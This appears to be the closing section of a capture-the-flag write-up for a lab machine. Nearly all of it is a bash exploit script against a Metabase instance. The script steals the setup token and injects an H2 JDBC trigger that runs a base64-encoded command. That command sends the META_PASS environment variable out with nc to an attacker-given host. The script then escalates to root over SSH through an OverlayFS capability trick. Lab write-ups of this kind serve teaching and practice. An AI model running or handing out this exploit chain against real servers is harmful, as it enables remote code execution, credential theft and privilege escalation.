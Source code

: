 ```bash
#!/bin/bash
lol=$(echo "env | grep -i meta_pass | cut -c 11- | nc $1 $2" | base64 -w 0 | tr -d "=")

setup_token=$(wget http://data.analytical.htb/api/session/properties -O- -q| grep -P -i 'setup-token":"[^"]*","application-colors":\{\},"enable-audit-app\?":false,"anon-tracking-enabled":' -o | awk -F ":" '{print $2}' | awk -F "," '{print $1}' | tr -d '"')
payload="{echo,$lol}|{base64,-d}|{bash,-i}"
curl -sS -o /dev/null -X POST  -H "Content-Type: application/json" -H "Accept: application/json" -d '{

    "token": '\"$setup_token\"',
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {

          "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('\'bash\ -c\ $payload\'')\n$$--=x",
            "advanced-options": false,
            "ssl": true

        },

        "name": "'\'\\$3\''",
        "engine": "h2"
    }
}' http://data.analytical.htb/api/setup/validate

echo -e "type/paste the pass you received in"
read pass


sshpass -p $pass ssh metalytics@analytical.htb "unshare -rm sh -c \"mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;\" && u/python3 -c 'import os;os.setuid(0);os.system(\"cat /home/metalytics/user.txt && cat /root/root.txt\")'; rm -rf l u w m" | awk 'BEGIN{ RS = "" ; FS = "\n" ;}{print "USER:",$1; print "ROOT:", $2}'
```

<p align="center"><img src="https://github.com/evildocument/writeups/assets/145527328/17a37975-fc5c-4ecf-a8db-1bccc9b2cee2"></p>
<br><br>
<h3 align="center">Well, this has been aluche, thanks for reading. See ya.</h3>
<h2 align="center"><a href="https://evildocument.github.io">@evildocument</h2>
<p align="center"><img src="https://github.com/evildocument/writeups/assets/145527328/4e555769-5b70-42d1-ba7f-de0a3596df40"></p>



